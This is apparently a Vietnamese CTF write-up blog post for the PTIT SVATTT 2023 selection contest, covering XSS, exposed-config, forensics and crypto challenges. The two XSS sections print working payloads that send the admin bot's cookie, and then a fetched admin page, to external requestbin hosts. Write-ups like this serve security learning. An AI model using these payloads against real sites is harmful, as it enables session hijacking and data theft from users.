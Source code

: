 ```yaml
---
title: Writeup CTF Tuyển chọn SVATT PTIT 2023
date: 2021-03-21 22:00:00 +0700
categories: [Writeup, PTITSVATTT2023]
tags: [ctf,writeup]     # TAG names should always be lowercase
---
```



# Writeup CTF Tuyển chọn SVATT PTIT 2023

---

# Web01

![Untitled](/assets/img/PTITSVATTT/Untitled.png)

Chúng ta được cho 2 link, 1 là link challenge, 2 là link của con bot. Kinh nghiệm cho mình thấy đây là 1 bài Reflected XSS để lấy cookie

Sau khi đăng ký và đăng nhập, đây là UI của web challenge gồm 1 form để nhập note, và note được nhập sẽ hiển thị ngay bên dưới

![Untitled](/assets/img/PTITSVATTT/Untitled%201.png)

Test thử với payload đơn giản `<img src=x onerror=alert(1)`, nhận thấy trang web bị lỗi XSS. 

![Untitled](/assets/img/PTITSVATTT/Untitled%202.png)

Ý tưởng bây giờ là khai thác Reflected XSS để lấy cookie của bot. Payload để lấy cookie của bot:

```jsx
<img src=x onerror="this.src='https://eo4kqgjvne2o998.m.pipedream.net/?'+document.cookie; this.removeAttribute('onerror');">
```

Giải thích payload: Javascript được thực thi sẽ gửi GET HTTP request đến URL requestbin kèm với cookie của bot

Sau khi gửi đường link cho bot, mã Javascript được thực thi, lấy được cookie của bot

![Untitled](/assets/img/PTITSVATTT/Untitled%203.png)

Thay cookie của người dùng bằng Cookie của bot, truy cập admin panel ta sẽ lấy được flag

![Untitled](/assets/img/PTITSVATTT/Untitled%204.png)

![Untitled](/assets/img/PTITSVATTT/Untitled%205.png)

---

# Web02

![Untitled](/assets/img/PTITSVATTT/Untitled%206.png)

UI của challenge  là 1 form search

![Untitled](/assets/img/PTITSVATTT/Untitled%207.png)

Form search làm mình nghĩ ngay đến SQLi : D. Nhưng sau khi test thử với Burp Suite và sqlmap thì mình không detect được SQLi xD

dirsearch URL của challenge, tìm được 1 endpoint thú dzị là `/docker-compose.yml`

![Untitled](/assets/img/PTITSVATTT/Untitled%208.png)

Truy cập [`167.172.80.186:5000/docker-compose.yml`](http://167.172.80.186:5000/docker-compose.yml) lấy được password vào mysql db : D

![Untitled](/assets/img/PTITSVATTT/Untitled%209.png)

Chui vào db mình lấy được flag xD

![Untitled](/assets/img/PTITSVATTT/Untitled%2010.png)

---

# Web01-again

![Untitled](/assets/img/PTITSVATTT/Untitled%2011.png)

Vẫn là cái UI của bài web01 trước

![Untitled](/assets/img/PTITSVATTT/Untitled%2012.png)

vẫn là con BOT cũ

![Untitled](/assets/img/PTITSVATTT/Untitled%2013.png)

Nhưng cái khác ở đây là không thể dùng Reflected XSS để lấy cookie của bot do có flag `http-only`

![Untitled](/assets/img/PTITSVATTT/Untitled%2014.png)

Ý tưởng của mình là thay vì lấy cookie của con bot để vào được admin panel, giờ mình sẽ điều khiển con bot  lấy luôn flag về cho mình : D

POC để con bot truy cập `admin pannel` và lấy flag cho mình

```jsx
<script>
   var req = new XMLHttpRequest(); // Initializes the request object
   req.onload=reqListener; // Set the listener reqListener that is triggered when the response is ready
   var url="http://167.172.80.186:9999/admin.php"; // Initializes the URL of the PHP info page
   req.withCredentials=true; // Send the cookie header
   req.open("GET",url,false); // The request will be sent to the PHP info page of Metasploitable 2 (192.168.240.128) through the GET method synchronously
   req.send(); // Send the request
   function reqListener() {
      var req2=new XMLHttpRequest(); 
      const sess=this.responseText.substring(this.responseText.indexOf("ATTT"));
      req2.open("GET","https://eoisvenotwsj688.m.pipedream.net/?data="+btoa(sess),false);
      req2.send() 
   };
</script>
```

ok, giải thích qua 1 chút POC

đầu tiên bot sẽ truy cập vào trang admin

Sau đó nó sẽ lọc response để lấy ra flag theo format `ATTT{.......}`

bước cuối nó gửi flag để server của mình, mã hóa base64 để tránh việc request URL quá dài

và boom

![Untitled](/assets/img/PTITSVATTT/Untitled%2015.png)

và boom, again

![Untitled](/assets/img/PTITSVATTT/Untitled%2016.png)

---

# For01

![Untitled](/assets/img/PTITSVATTT/Untitled%2017.png)

Ok, challenge này cho chúng ta 1 file rar, sau khi giải nén cấu trúc thư mục sẽ như thế này

![Untitled](/assets/img/PTITSVATTT/Untitled%2018.png)

Tóm gọn lại là có 100 thư mục được đánh dấu từ 0-100, trong mỗi thư mục lại có 100 thư mục được đặt tên từ 0-100. Trong mỗi thư mục con lại có 100 file `.txt` `0.txt` đến `100.txt` . Nhiệm vụ của chúng ta là tìm ra flag trong đống file `.txt` đấy : D. Mình dùng python để tự động hóa quá trình tìm flag. Đây là source code:

```jsx
import os

for i in range(0,101):
    for j in range(0,101):
        for filename in os.listdir('./{}/{}/'.format(i,j)):
            f = open('./{}/{}/'.format(i,j)+filename,'r')
            r = f.read()
            if r != "almost" and r != "no" and r!="nah" and r!="you_got_it" and r!="try_again" and r!="Not_this_time" and r!="so_close" and r!="nope" and r!="better_luck_next_time":
                print(r)
```

Mình sử dụng 2 vòng lặp và đọc tất cả các file `.txt` trong thư mục con, kết quả tìm ra flag : D

![Untitled](/assets/img/PTITSVATTT/Untitled%2019.png)

---

# Crypto01

![Untitled](/assets/img/PTITSVATTT/Untitled%2020.png)

Source code enc.cpp:

```jsx
#include <iostream>
#include <string>
using namespace std;

#define EL printf("\n")

string flag = "ATTT{fake_flag}";

void bases(string &s) {
    for (int i = 0; i < s.size(); i += 4)
        printf("%o %u %x %u ", (unsigned char) s[i], (unsigned char) s[i + 1], (unsigned char) s[i + 2], (unsigned char) s[i + 3]);
    EL;
}

int main() {
    freopen("res.txt", "w", stdout);
    bases(flag);

    return 0;
}
```

Thuật toán: Lấy 4 kí tự liền nhau, kí tự đầu tiên sẽ chuyển về dạng octal, kí tự  thứ 2 là dạng decimal, kí tự thứ 3 là dạng hex và kí tự thứ 4 tiếp tục là decimal, và lặp lại như vậy đến khi hết chuỗi.

Mình hiểu thuật toán nhưng quên mất cách code c++, code python thì lú nên tức quá quay ra làm bằng tay xD. Bật 4 tab cyberchef và quẩy tầm 2,3p mình được flag ám ảnh nhất mình từng tìm được : D

![Untitled](/assets/img/PTITSVATTT/Untitled%2021.png)